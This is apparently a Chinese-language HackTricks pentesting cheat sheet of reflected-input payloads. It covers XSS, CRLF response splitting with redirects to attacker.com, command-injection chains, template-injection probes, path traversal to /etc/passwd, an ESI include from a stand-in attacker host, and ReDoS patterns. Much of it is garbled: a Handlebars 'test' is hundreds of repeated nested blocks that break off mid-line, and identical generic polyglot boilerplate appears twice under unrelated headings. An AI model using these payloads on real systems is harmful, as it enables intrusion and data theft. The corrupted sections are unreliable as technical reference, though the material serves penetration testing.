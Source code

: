 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks 云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 你在一个 **网络安全公司** 工作吗？你想在 HackTricks 中看到你的 **公司广告** 吗？或者你想获得 **PEASS 的最新版本或下载 HackTricks 的 PDF** 吗？请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family) 集合 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)

- **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我的 **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **通过向 [hacktricks 仓库](https://github.com/carlospolop/hacktricks) 和 [hacktricks-cloud 仓库](https://github.com/carlospolop/hacktricks-cloud) 提交 PR 来分享你的黑客技巧**。

</details>


这些 PoCs 和 Polygloths 的目标是为测试人员提供一个快速的**概述**，以便他可以利用如果他的**输入在响应中被反射**。

{% hint style="warning" %}
这个**备忘单并不提供每个漏洞的全面测试列表**，只是一些基本的测试。如果你正在寻找更全面的测试，请访问每个漏洞的详细信息。
{% endhint %}

{% hint style="danger" %}
你**不会找到基于 Content-Type 的注入，比如 XXE**，因为通常如果你找到一个发送 XML 数据的请求，你会自己尝试这些注入。你**也不会在这里找到数据库注入**，因为即使一些内容可能被反射，它严重依赖于后端数据库技术和结构。
{% endhint %}

# Polygloths 列表
```python
{{7*7}}[7*7]
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
# [客户端模板注入](../client-side-template-injection-csti.md)

## 基本测试

### 1. AngularJS

```html
{{7*'7'.constructor.fromCharCode(97,108,101,114,116,40,49,41)()}}
```

### 2. Handlebars

```html
{{#with "s" as |string|}}
  {{#with "e" as |escape|}}
    {{#with "c" as |context|}}
      {{#with "r" as |reverse|}}
        {{#with "i" as |indexOf|}}
          {{#with "p" as |print|}}
            {{#with "t" as |toString|}}
              {{#with "o" as |object|}}
                {{#with "n" as |number|}}
                  {{#with "f" as |function|}}
                    {{#with "a" as |array|}}
                      {{#with "b" as |boolean|}}
                        {{#with "u" as |undefined|}}
                          {{#with "d" as |document|}}
                            {{#with "w" as |window|}}
                              {{#with "g" as |global|}}
                                {{#with "l" as |location|}}
                                  {{#with "h" as |history|}}
                                    {{#with "s" as |self|}}
                                      {{#with "v" as |valueOf|}}
                                        {{#with "x" as |context|}}
                                          {{#with "y" as |reverse|}}
                                            {{#with "z" as |indexOf|}}
                                              {{#with "q" as |print|}}
                                                {{#with "m" as |toString|}}
                                                  {{#with "k" as |object|}}
                                                    {{#with "j" as |number|}}
                                                      {{#with "e" as |function|}}
                                                        {{#with "w" as |array|}}
                                                          {{#with "r" as |boolean|}}
                                                            {{#with "t" as |undefined|}}
                                                              {{#with "y" as |document|}}
                                                                {{#with "u" as |window|}}
                                                                  {{#with "i" as |global|}}
                                                                    {{#with "o" as |location|}}
                                                                      {{#with "p" as |history|}}
                                                                        {{#with "s" as |self|}}
                                                                          {{#with "v" as |valueOf|}}
                                                                            {{#with "x" as |context|}}
                                                                              {{#with "y" as |reverse|}}
                                                                                {{#with "z" as |indexOf|}}
                                                                                  {{#with "q" as |print|}}
                                                                                    {{#with "m" as |toString|}}
                                                                                      {{#with "k" as |object|}}
                                                                                        {{#with "j" as |number|}}
                                                                                          {{#with "e" as |function|}}
                                                                                            {{#with "w" as |array|}}
                                                                                              {{#with "r" as |boolean|}}
                                                                                                {{#with "t" as |undefined|}}
                                                                                                  {{#with "y" as |document|}}
                                                                                                    {{#with "u" as |window|}}
                                                                                                      {{#with "i" as |global|}}
                                                                                                        {{#with "o" as |location|}}
                                                                                                          {{#with "p" as |history|}}
                                                                                                            {{#with "s" as |self|}}
                                                                                                              {{#with "v" as |valueOf|}}
                                                                                                                {{#with "x" as |context|}}
                                                                                                                  {{#with "y" as |reverse|}}
                                                                                                                    {{#with "z" as |indexOf|}}
                                                                                                                      {{#with "q" as |print|}}
                                                                                                                        {{#with "m" as |toString|}}
                                                                                                                          {{#with "k" as |object|}}
                                                                                                                            {{#with "j" as |number|}}
                                                                                                                              {{#with "e" as |function|}}
                                                                                                                                {{#with "w" as |array|}}
                                                                                                                                  {{#with "r" as |boolean|}}
                                                                                                                                    {{#with "t" as |undefined|}}
                                                                                                                                      {{#with "y" as |document|}}
                                                                                                                                        {{#with "u" as |window|}}
                                                                                                                                          {{#with "i" as |global|}}
                                                                                                                                            {{#with "o" as |location|}}
                                                                                                                                              {{#with "p" as |history|}}
                                                                                                                                                {{#with "s" as |self|}}
                                                                                                                                                  {{#with "v" as |valueOf|}}
                                                                                                                                                    {{#with "x" as |context|}}
                                                                                                                                                      {{#with "y" as |reverse|}}
                                                                                                                                                        {{#with "z" as |indexOf|}}
                                                                                                                                                          {{#with "q" as |print|}}
                                                                                                                                                            {{#with "m" as |toString|}}
                                                                                                                                                              {{#with "k" as |object|}}
                                                                                                                                                                {{#with "j" as |number|}}
                                                                                                                                                                  {{#with "e" as |function|}}
                                                                                                                                                                    {{#with "w" as |array|}}
                                                                                                                                                                      {{#with "r" as |boolean|}}
                                                                                                                                                                        {{#with "t" as |undefined|}}
                                                                                                                                                                          {{#with "y" as |document|}}
                                                                                                                                                                            {{#with "u" as |window|}}
                                                                                                                                                                              {{#with "i" as |global|}}
                                                                                                                                                                                {{#with "o" as |location|}}
                                                                                                                                                                                  {{#with "p" as |history|}}
                                                                                                                                                                                    {{#with "s" as |self|}}
                                                                                                                                                                                      {{#with "v" as |valueOf|}}
                                                                                                                                                                                        {{#with "x" as |context|}}
                                                                                                                                                                                          {{#with "y" as |reverse|}}
                                                                                                                                                                                            {{#with "z" as |indexOf|}}
                                                                                                                                                                                              {{#with "q" as |print|}}
                                                                                                                                                                                                {{#with "m" as |toString|}}
                                                                                                                                                                                                  {{#with "k" as |object|}}
                                                                                                                                                                                                    {{#with "j" as |number|}}
                                                                                                                                                                                                      {{#with "e" as |function|}}
                                                                                                                                                                                                        {{#with "w" as |array|}}
                                                                                                                                                                                                          {{#with "r" as |boolean|}}
                                                                                                                                                                                                            {{#with "t" as |undefined|}}
                                                                                                                                                                                                              {{#with "y" as |document|}}
                                                                                                                                                                                                                {{#with "u" as |window|}}
                                                                                                                                                                                                                  {{#with "i" as |global|}}
                                                                                                                                                                                                                    {{#with "o" as |location|}}
                                                                                                                                                                                                                      {{#with "p" as |history|}}
                                                                                                                                                                                                                        {{#with "s" as |self|}}
                                                                                                                                                                                                                          {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                            {{#with "x" as |context|}}
                                                                                                                                                                                                                              {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                  {{#with "q" as |print|}}
                                                                                                                                                                                                                                    {{#with "m" as |toString|}}
                                                                                                                                                                                                                                      {{#with "k" as |object|}}
                                                                                                                                                                                                                                        {{#with "j" as |number|}}
                                                                                                                                                                                                                                          {{#with "e" as |function|}}
                                                                                                                                                                                                                                            {{#with "w" as |array|}}
                                                                                                                                                                                                                                              {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                  {{#with "y" as |document|}}
                                                                                                                                                                                                                                                    {{#with "u" as |window|}}
                                                                                                                                                                                                                                                      {{#with "i" as |global|}}
                                                                                                                                                                                                                                                        {{#with "o" as |location|}}
                                                                                                                                                                                                                                                          {{#with "p" as |history|}}
                                                                                                                                                                                                                                                            {{#with "s" as |self|}}
                                                                                                                                                                                                                                                              {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                  {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                    {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                      {{#with "q" as |print|}}
                                                                                                                                                                                                                                                                        {{#with "m" as |toString|}}
                                                                                                                                                                                                                                                                          {{#with "k" as |object|}}
                                                                                                                                                                                                                                                                            {{#with "j" as |number|}}
                                                                                                                                                                                                                                                                              {{#with "e" as |function|}}
                                                                                                                                                                                                                                                                                {{#with "w" as |array|}}
                                                                                                                                                                                                                                                                                  {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                                                    {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                                                      {{#with "y" as |document|}}
                                                                                                                                                                                                                                                                                        {{#with "u" as |window|}}
                                                                                                                                                                                                                                                                                          {{#with "i" as |global|}}
                                                                                                                                                                                                                                                                                            {{#with "o" as |location|}}
                                                                                                                                                                                                                                                                                              {{#with "p" as |history|}}
                                                                                                                                                                                                                                                                                                {{#with "s" as |self|}}
                                                                                                                                                                                                                                                                                                  {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                                                    {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                                                      {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                                                        {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                                                          {{#with "q" as |print|}}
                                                                                                                                                                                                                                                                                                            {{#with "m" as |toString|}}
                                                                                                                                                                                                                                                                                                              {{#with "k" as |object|}}
                                                                                                                                                                                                                                                                                                                {{#with "j" as |number|}}
                                                                                                                                                                                                                                                                                                                  {{#with "e" as |function|}}
                                                                                                                                                                                                                                                                                                                    {{#with "w" as |array|}}
                                                                                                                                                                                                                                                                                                                      {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                                                                                        {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                                                                                          {{#with "y" as |document|}}
                                                                                                                                                                                                                                                                                                                            {{#with "u" as |window|}}
                                                                                                                                                                                                                                                                                                                              {{#with "i" as |global|}}
                                                                                                                                                                                                                                                                                                                                {{#with "o" as |location|}}
                                                                                                                                                                                                                                                                                                                                  {{#with "p" as |history|}}
                                                                                                                                                                                                                                                                                                                                    {{#with "s" as |self|}}
                                                                                                                                                                                                                                                                                                                                      {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                                                                                        {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                                                                                          {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                                                                                            {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                                                                                              {{#with "q" as |print|}}
                                                                                                                                                                                                                                                                                                                                                {{#with "m" as |toString|}}
                                                                                                                                                                                                                                                                                                                                                  {{#with "k" as |object|}}
                                                                                                                                                                                                                                                                                                                                                    {{#with "j" as |number|}}
                                                                                                                                                                                                                                                                                                                                                      {{#with "e" as |function|}}
                                                                                                                                                                                                                                                                                                                                                        {{#with "w" as |array|}}
                                                                                                                                                                                                                                                                                                                                                          {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                                                                                                                            {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                                                                                                                              {{#with "y" as |document|}}
                                                                                                                                                                                                                                                                                                                                                                {{#with "u" as |window|}}
                                                                                                                                                                                                                                                                                                                                                                  {{#with "i" as |global|}}
                                                                                                                                                                                                                                                                                                                                                                    {{#with "o" as |location|}}
                                                                                                                                                                                                                                                                                                                                                                      {{#with "p" as |history|}}
                                                                                                                                                                                                                                                                                                                                                                        {{#with "s" as |self|}}
                                                                                                                                                                                                                                                                                                                                                                          {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                                                                                                                            {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                                                                                                                              {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                                                                                                                                {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                                                                                                                                  {{#with "q" as |print|}}
                                                                                                                                                                                                                                                                                                                                                                                    {{#with "m" as |toString|}}
                                                                                                                                                                                                                                                                                                                                                                                      {{#with "k" as |object|}}
                                                                                                                                                                                                                                                                                                                                                                                        {{#with "j" as |number|}}
                                                                                                                                                                                                                                                                                                                                                                                          {{#with "e" as |function|}}
                                                                                                                                                                                                                                                                                                                                                                                            {{#with "w" as |array|}}
                                                                                                                                                                                                                                                                                                                                                                                              {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                                                                                                                                                                {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "y" as |document|}}
                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "u" as |window|}}
                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "i" as |global|}}
                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "o" as |location|}}
                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "p" as |history|}}
                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "s" as |self|}}
                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "q" as |print|}}
                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "m" as |toString|}}
                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "k" as |object|}}
                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "j" as |number|}}
                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "e" as |function|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "w" as |array|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "y" as |document|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "u" as |window|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "i" as |global|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "o" as |location|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "p" as |history|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "s" as |self|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "q" as |print|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "m" as |toString|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "k" as |object|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "j" as |number|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "e" as |function|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "w" as |array|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "y" as |document|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "u" as |window|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "i" as |global|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "o" as |location|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "p" as |history|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "s" as |self|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "q" as |print|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "m" as |toString|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "k" as |object|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "j" as |number|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "e" as |function|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "w" as |array|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "y" as |document|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "u" as |window|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "i" as |global|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "o" as |location|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "p" as |history|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "s" as |self|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "q" as |print|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "m" as |toString|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "k" as |object|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "j" as |number|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "e" as |function|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "w" as |array|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "r" as |boolean|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "t" as |undefined|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "y" as |document|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "u" as |window|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with "i" as |global|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        {{#with "o" as |location|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          {{#with "p" as |history|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            {{#with "s" as |self|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              {{#with "v" as |valueOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                {{#with "x" as |context|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  {{#with "y" as |reverse|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    {{#with "z" as |indexOf|}}
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      {{#with
```
{{7*7}}
[7*7]
```
## 多语言

Polyglot（多语言）是指一种文件或程序，可以被解释为多种不同的语言，具体取决于上下文。在网络渗透测试中，多语言文件可以用于绕过安全机制，欺骗系统或执行恶意操作。

### 多语言文件的特点

- **文件格式**：多语言文件通常是特定格式的文件，例如HTML、XML、JSON、PDF等。
- **语言注释**：多语言文件中的注释可以用于指定文件的语言类型。
- **语言特定代码**：多语言文件中的代码可以根据不同的语言解释器进行解释。

### 多语言文件的应用

- **绕过安全机制**：通过创建一个多语言文件，可以绕过某些安全机制，因为不同的解释器可能会对文件进行不同的处理。
- **欺骗系统**：多语言文件可以被解释为合法的文件类型，从而欺骗系统，绕过文件类型检测。
- **执行恶意操作**：通过利用多语言文件的特性，可以执行恶意操作，例如执行命令、读取敏感文件等。

### 多语言文件的示例

以下是一些常见的多语言文件示例：

- **Polyglot HTML/JavaScript**：这种文件可以同时被解释为HTML和JavaScript代码，可以用于绕过XSS过滤器。
- **Polyglot XML/XXE**：这种文件可以同时被解释为XML和XXE（外部实体注入）代码，可以用于绕过XML解析器的安全机制。
- **Polyglot JSON/JavaScript**：这种文件可以同时被解释为JSON和JavaScript代码，可以用于绕过JSON解析器的安全机制。

### 多语言文件的创建

创建多语言文件需要深入了解不同语言的语法和特性。以下是一些创建多语言文件的技巧：

- **注释**：使用不同语言的注释语法来指定文件的语言类型。
- **语法**：根据不同语言的语法规则，编写可以被多个解释器解释的代码。
- **测试**：在不同的解释器中测试文件，确保文件在不同环境中都能正常解释。

### 多语言文件的检测

检测多语言文件可以使用以下方法：

- **文件分析**：通过分析文件的结构和内容，检测是否存在多语言特征。
- **解释器测试**：使用不同的解释器解释文件，观察文件在不同环境中的行为。
- **安全工具**：使用专门的安全工具，如文件分析器、语法分析器等，来检测多语言文件。

### 多语言文件的防御

防御多语言文件的攻击可以采取以下措施：

- **文件过滤**：实施严格的文件类型过滤，阻止不明文件类型的上传和执行。
- **解释器配置**：配置解释器的安全参数，限制解释器对文件的处理能力。
- **安全工具**：使用安全工具来检测和阻止多语言文件的攻击。
- **教育培训**：提高用户和开发人员的安全意识，避免对不明文件的信任。

### 参考资料

- [Polyglot Files](https://en.wikipedia.org/wiki/Polyglot_(computing))
- [Polyglot Files: Exploiting Multiple Interpretations](https://www.exploit-db.com/docs/english/44756-polyglot-files-exploiting-multiple-interpretations.pdf)
```bash
{{7*7}}[7*7]
```
# [命令注入](../command-injection.md)

## 基本测试
```bash
;ls
||ls;
|ls;
&&ls;
&ls;
%0Als
`ls`
$(ls)
```
## 多语言

Polyglot（多语言）是指一种文件或程序，可以被解释为多种不同的语言，具体取决于上下文。在网络渗透测试中，多语言文件可以用于绕过安全机制，欺骗系统或执行恶意操作。

### 多语言文件的特点

- **文件格式**：多语言文件通常是特定格式的文件，例如HTML、XML、JSON、PDF等。
- **语言注释**：多语言文件中的注释可以用于指定文件的语言类型。
- **语言特定代码**：多语言文件中的代码可以根据不同的语言解释器进行解释。

### 多语言文件的应用

- **绕过安全机制**：通过创建一个多语言文件，可以绕过某些安全机制，因为不同的解释器可能会对文件进行不同的处理。
- **欺骗系统**：多语言文件可以被解释为合法的文件类型，从而欺骗系统，绕过文件类型检测。
- **执行恶意操作**：通过利用多语言文件的特性，可以执行恶意操作，例如执行命令、读取敏感文件等。

### 多语言文件的示例

以下是一些常见的多语言文件示例：

- **Polyglot HTML/JavaScript**：这种文件可以同时被解释为HTML和JavaScript代码，可以用于绕过XSS过滤器。
- **Polyglot XML/XXE**：这种文件可以同时被解释为XML和XXE（外部实体注入）代码，可以用于绕过XML解析器的安全机制。
- **Polyglot JSON/JavaScript**：这种文件可以同时被解释为JSON和JavaScript代码，可以用于绕过JSON解析器的安全机制。

### 多语言文件的创建

创建多语言文件需要深入了解不同语言的语法和特性。以下是一些创建多语言文件的技巧：

- **注释**：使用不同语言的注释语法来指定文件的语言类型。
- **语法**：根据不同语言的语法规则，编写可以被多个解释器解释的代码。
- **测试**：在不同的解释器中测试文件，确保文件在不同环境中都能正常解释。

### 多语言文件的检测

检测多语言文件需要使用适当的工具和技术。以下是一些常用的多语言文件检测方法：

- **文件分析**：使用文件分析工具，如file命令或TrID，来确定文件的真实类型。
- **语法分析**：使用语法分析工具，如linters或解释器，来检查文件的语法和语义。
- **环境测试**：在不同的解释器中测试文件，观察文件在不同环境中的行为。

### 多语言文件的防御

为了防止多语言文件的滥用，可以采取以下防御措施：

- **文件类型检测**：实施严格的文件类型检测，以防止多语言文件被误解释为其他类型的文件。
- **输入验证**：对用户输入进行严格的验证和过滤，以防止恶意多语言文件的注入。
- **安全配置**：配置解释器和应用程序的安全设置，以限制多语言文件的执行权限。

### 参考资料

- [Polyglot Files](https://en.wikipedia.org/wiki/Polyglot_(computing))
- [Polyglot Files: Exploiting Multiple Interpretations](https://www.exploit-db.com/docs/english/45074-polyglot-files-exploiting-multiple-interpretations.pdf)
```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
```
# [CRLF](../crlf-0d-0a.md)

## 基本测试

### CRLF Injection

CRLF注入是一种利用CRLF序列（回车换行）来注入恶意内容的攻击技术。攻击者可以通过在用户输入中插入CRLF序列来改变应用程序的行为，例如在HTTP响应中插入恶意头部或注入恶意脚本。

#### HTTP Response Splitting

HTTP响应拆分是一种CRLF注入攻击技术，攻击者可以通过在HTTP响应中插入CRLF序列来拆分响应，从而在用户端引发安全问题。这种攻击可能导致HTTP响应劫持、会话劫持、跨站脚本攻击（XSS）等问题。

#### SMTP Header Injection

SMTP头注入是一种CRLF注入攻击技术，攻击者可以通过在SMTP邮件头中插入CRLF序列来注入恶意内容。这种攻击可能导致邮件劫持、欺骗性邮件、跨站脚本攻击（XSS）等问题。

